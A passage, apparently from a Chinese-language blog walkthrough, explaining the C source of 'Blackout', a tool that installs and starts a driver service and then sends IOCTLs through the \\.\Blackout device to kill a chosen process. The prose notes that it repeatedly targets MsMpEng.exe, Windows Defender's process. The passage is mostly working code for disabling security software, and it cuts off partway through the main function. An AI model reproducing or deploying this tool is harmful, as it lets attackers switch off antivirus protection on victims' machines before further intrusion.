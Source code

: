         if (hService == NULL) {  
            CloseServiceHandle(hSCM);  
            return (1);  
        }  
      
        printf("Service created successfully.\n");  
      
        // Start the service  
        if (!StartServiceA(hService, 0, nullptr))  
        {  
            CloseServiceHandle(hService);  
            CloseServiceHandle(hSCM);  
            return (1);  
        }  
      
        printf("Starting service...\n");  
      
        CloseServiceHandle(hService);  
        CloseServiceHandle(hSCM);  
      
        return (0);  
    }

其次看下主函数代码的实现流程，先使用前面定义的LoadDriver函数加载驱动，再使用CreateFile打开驱动并得到其句柄。

得到驱动句柄后使用 `DeviceIoControl` 函数与驱动通信，发送`INITIALIZE_IOCTL_CODE`
指令初始化驱动，再发送`TERMINSTE_PROCESS_IOCTL_CODE` 指令来终止指定的进程

如果所给的进程 ID 对应的进程是 “MsMpEng.exe”（这是 Windows Defender
的进程），则程序会不断尝试终止它，毕竟MsMpEng.exe被杀死后还是会无限复活的

在这里我要补充一点，当调用 `CreateFile` 打开 “\\.\Blackout”
时，实际上是在尝试打开一个与驱动程序相关联的设备。在Windows中，驱动程序可以创建一个设备并为其分配一个符号链接，这样用户模式的程序可以通过这个符号链接与驱动程序通信，从而允许后续的`DeviceIoControl`
调用来传递IO控制代码 (IOCTL) 和其他数据到驱动程序中

    
    
    int  
    main(  
        int argc,  
        char** argv  
    ) {  
      
        if (argc != 3) {  
            printf("Invalid number of arguments. Usage: Blackout.exe -p <process_id>\n");  
            return (-1);  
        }  
      
        if (strcmp(argv[1], "-p") != 0) {  
            printf("Invalid argument. Usage: Blackout.exe -p <process_id>\n");  
            return (-1);  
        }  
      
        if (!CheckProcess(atoi(argv[2])))  
        {  
            printf("provided process id doesnt exist !!\n");  
            return (-1);  
        }  
      